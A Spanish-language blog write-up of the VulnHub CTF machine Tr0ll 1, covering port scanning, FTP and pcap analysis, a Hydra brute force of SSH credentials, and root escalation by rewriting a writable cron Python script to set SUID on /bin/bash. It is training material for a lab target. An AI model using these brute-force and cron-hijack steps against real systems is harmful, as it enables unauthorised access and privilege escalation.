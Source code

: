 ```yaml
---
layout: single
title: Tr0ll 1 - VulnHub
excerpt: " Tr0ll was inspired by the constant trolling of the machines within the OSCP labs. The goal is simple, gain root and get Proof.txt from the /root directory. Not for the easily frustrated! Fair warning, there be trolls ahead! "
date: 2023-02-27
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-troll/troll.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - FTP
  - PSPY
  - CTF
  - Wireshark
  - pcap
  - Python
  - Hydra
---
```


Tr0ll was inspired by the constant trolling of the machines within the OSCP labs. The goal is simple, gain root and get Proof.txt from the /root directory. Not for the easily frustrated! Fair warning, there be trolls ahead!

# Summary
- IP: 192.168.1.41
- Ports: 21,22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  21 -> vsftpd 3.0.2
	-  22 -> OpenSSH 6.6.1p1 Ubuntu 2ubuntu2
	-  80 -> Apache httpd 2.4.7

# Recon

- Escaneo básico de puertos:  

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.1.41 -oG allPorts
```


- Escaneo profundo de puertos encontrados:  

```bash
$nmap -p21,22,80 -sCV 192.168.1.41 -oN targeted
```

# Escaneo FTP (Como anonymous):

```bash
$ftp 192.168.1.41
```

- Encontramos un archivo `"lol.pcap"`, lo descargamos a nuestra máquina atacante:

```
ftp> get lol.pcap
```

# Análisis de archivo .pcap:

- Abrimos el archivo descargado con `wireshark` y encontramos varios paquetes TCP y FTP; si buscamos bien entre los paquetes `FTP DATA` veremos en texto más o menos claro lo siguiente:

```js
0000   00 0c 29 5d 04 92 00 0c 29 20 70 99 08 00 45 08   ..)]....) p...E.
0010   00 c7 4f eb 40 00 40 06 d6 2c 0a 00 00 06 0a 00   ..O.@.@..,......
0020   00 0c 00 14 ca ac 45 83 8b 6b 48 0b cb 56 80 18   ......E..kH..V..
0030   03 91 82 f4 00 00 01 01 08 0a 00 1a c4 83 00 05   ................
0040   e1 57 57 65 6c 6c 2c 20 77 65 6c 6c 2c 20 77 65   .WWell, well, we
0050   6c 6c 2c 20 61 72 65 6e 27 74 20 79 6f 75 20 6a   ll, aren't you j
0060   75 73 74 20 61 20 63 6c 65 76 65 72 20 6c 69 74   ust a clever lit
0070   74 6c 65 20 64 65 76 69 6c 2c 20 79 6f 75 20 61   tle devil, you a
0080   6c 6d 6f 73 74 20 66 6f 75 6e 64 20 74 68 65 20   lmost found the 
0090   73 75 70 33 72 73 33 63 72 33 74 64 69 72 6c 6f   sup3rs3cr3tdirlo
00a0   6c 20 3a 2d 50 0a 0a 53 75 63 6b 73 2c 20 79 6f   l :-P..Sucks, yo
00b0   75 20 77 65 72 65 20 73 6f 20 63 6c 6f 73 65 2e   u were so close.
00c0   2e 2e 20 67 6f 74 74 61 20 54 52 59 20 48 41 52   .. gotta TRY HAR
00d0   44 45 52 21 0a                                    DER!.
```

- Como se trata de un `CTF` puede que esta sea una pista para un posterior análisis.


# Análisis de página web:

- Si hacemos un escaneo de directorios con gobuster no encontraremos nada relevante.

- Recordamos la pista encontrada en el archivo `"lol.pcap"`; nos hablaba de una supuesta dirección `"sp3rs3cr3tdirlol"`, así que accedemos a esta.

```
http://192.168.1.41/sup3rs3cr3tdirlol/
```

- Encontramos un archivo llamado `"roflmao"`, lo descargamos y lo analizamos:

```bash
$file roflmao
```

- Se trata de un `binario` ejecutable para Linux, lo ejecutamos:

```bash
$./roflmao
```

```
Find address 0x0856BF to proceed
```

- Nos dice que encontremos la dirección `"0x0856BF"` para proceder; podríamos pensar que es un número en hexadecimal, sin embargo, se trata de un directorio ubicado en el mismo enlace de la página inicial, así que accedemos:

```
http://192.168.1.41/0x0856BF/
```


- Vemos dos carpetas, una `"good_luck/"` y otra `"this_folder_contains_the_password/"`, en la primera encontramos un archivo con posibles usuarios del sistema víctima, así que los guardamos en un archivo "users.txt".

- El segundo directorio contiene un archivo "Pass.txt" el cual al abrirlo nos dice "Good_job_:)", podríamos pensar en acceder con uno de los usuarios del archivo descargado en el paso anterior con esta contraseña, sin embargo, al ser una máquina "Troll" la contraseña correcta es el nombre del archivo contenido en la carpeta actual, es decir `"Pass.txt"`, esto lo comprobamos haciendo un ataque de fuerza bruta con hydra:

```bash
$hydra -L users.txt -p Pass.txt ssh://192.168.1.41 -t 30
```

```
[22][ssh] host: 192.168.1.41   login: overflow   password: Pass.txt
```

- Encontramos que la credencial "Pass.txt" es correcta para el usuario `"overflow"` así que entramos por SSH:

```
$ssh overflow@192.168.1.41
```


# ESCALANDO PRIVILEGIOS:


- Escaneamos los procesos que se ejecutan en segundo plano de forma automatizada con `PSPY` (habiendo transferido el binario de PSPY32 previamente):

- Luego de un rato, vemos que se ejecuta lo siguiente:

```bash
2023/02/27 15:10:01 CMD: UID=0     PID=1323   | CRON 
2023/02/27 15:10:01 CMD: UID=0     PID=1324   | /usr/bin/python /lib/log/cleaner.py 
2023/02/27 15:10:01 CMD: UID=0     PID=1325   | CRON 
2023/02/27 15:10:01 CMD: UID=0     PID=1326   | /usr/bin/python /opt/lmao.py 
2023/02/27 15:10:01 CMD: UID=0     PID=1327   | /usr/bin/python /opt/lmao.py 
2023/02/27 15:10:01 CMD: UID=0     PID=1328   | sh -c echo "TIMES UP LOL!"|wall 
2023/02/27 15:10:01 CMD: UID=0     PID=1329   | sh -c echo "TIMES UP LOL!"|wall 
2023/02/27 15:10:01 CMD: UID=0     PID=1330   | 
                                                                               
Broadcast Message from root@trol                                               
        (somewhere) at 15:10 ...                                               
                                                                               
TIMES UP LOL!                                                                  
                                                                               
2023/02/27 15:10:01 CMD: UID=0     PID=1331   | sh -c rm -r /tmp/*  
2023/02/27 15:10:01 CMD: UID=0     PID=1332   | /usr/bin/python /opt/lmao.py 
2023/02/27 15:10:01 CMD: UID=0     PID=1333   | sh -c pkill -u 'overflow' 
```

- Acto seguido nos echa del sistema, si volvemos a acceder como "overflow" y analizamos el archivo que se ejecuta automáticamente `"/ib/log/cleaner.py"` vemos el contenido:

```python
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
except:
	sys.exit()
```

- Vemos que este archivo se encarga de borrar lo que hay en el directorio "/tmp", sin embargo, tenemos permisos de escritura, así que podemos modificarlo a nuestro antojo para que ejecute el `comando` que queramos, en este caso, le daremos permisos `SUID` a la bash:

```bash
$nano /lib/log/cleaner.py
```

```python
#!/usr/bin/env python
import os
import sys
try:
	os.system('chmod u+s /bin/bash ')
except:
	sys.exit()
```

- Ahora solo esperamos a que se ejecute la tarea automática y el comando que nosotros hemos inyectado.

- Cuando nos eche del sistema, volvemos a ingresar y ejecutamos la bash con privilegios y seremos root:

```bash
$bash -p
```

#### EXTRA:

- Para evitar que nos eche del sistema cada cierto tiempo, como root podremos eliminar el archivo "/opt/lmao" el cual es el responsable de la ejecución de aquella tarea.
